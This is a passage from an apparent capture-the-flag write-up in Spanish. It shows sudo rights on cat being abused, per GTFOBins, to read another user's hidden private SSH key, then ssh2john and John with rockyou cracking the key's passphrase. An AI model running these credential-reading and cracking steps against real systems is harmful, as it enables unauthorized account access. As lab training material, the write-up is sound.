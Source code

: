 Buscando en [gtfobins](https://gtfobins.github.io/gtfobins/cat/) `cat` se encontró lo siguiente:

```sh
Sudo

Si se permite que el binario se ejecute como superusuario mediante `sudo`, no pierde los privilegios elevados y podría utilizarse para acceder al sistema de archivos, escalar privilegios o mantener acceso privilegiado.

LFILE=archivo_a_leer
sudo cat "$LFILE"
```

Por lo que aplicamos lo siguiente:

```sh
sophia@visions:~$ sudo /usr/bin/cat /home/isabella/.invisible

# Resultado:

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlcz
...
skV8zcwd+ErNODEHTUbD/nDARX8GeV1
-----END OPENSSH PRIVATE KEY-----
```

Copiamos la clave rsa en nuestro kali en el archivo `credenciales` y le damos los permisos para realizar la conexión a través de SSH:

```sh
# Cambiamos credenciales
chmod 600 credenciales

# Luego nos conectamos por ssh
ssh -i credenciales isabella@192.168.56.23 

# Lamentablemente nos pide contraseña
sophia@192.168.56.23's password: 
```

Ahora que sabemos que nos pide un `password`, lo pasamos por John para tratar de identificar la contraseña:

```sh
# Usamos ssh2john para tranformar el rsa a algo que pueda leer John
ssh2john credenciales > crede.txt

# Ahora aplicamos fuerza bruta con John
john --wordlist=/usr/share/wordlists/rockyou.txt crede.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
invisible        (credenciales)    
```
